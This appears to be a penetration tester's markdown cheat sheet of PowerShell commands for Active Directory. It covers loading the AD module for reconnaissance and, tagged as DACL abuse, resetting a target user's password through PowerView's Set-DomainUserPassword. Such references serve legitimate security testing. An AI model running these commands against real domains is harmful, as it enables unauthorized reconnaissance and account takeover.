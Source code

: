 # powershell

% ad, windows, powershell

## powershel - AD - Downoad the AD Module DLL
#plateform/windows #target/remote  #cat/RECON 

```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online
```

## powershel - AD - Find the AD Module DLL
#plateform/windows #target/remote  #cat/RECON 

```
gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```


## powershel - AD - load AD Module
#plateform/windows #target/remote  #cat/RECON 

```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```

## powershel - AD - Check commands
#plateform/windows #target/remote  #cat/RECON 

```
Get-Command -Module Microsoft.ActiveDirectory.Management
```


## change user password
#plateform/windows #target/remote  #cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
$UserPassword = ConvertTo-SecureString '<new_password>' -AsPlainText -Force
Set-DomainUserPassword -Identity <target_user> -AccountPassword $UserPassword -Credential $Cred
```


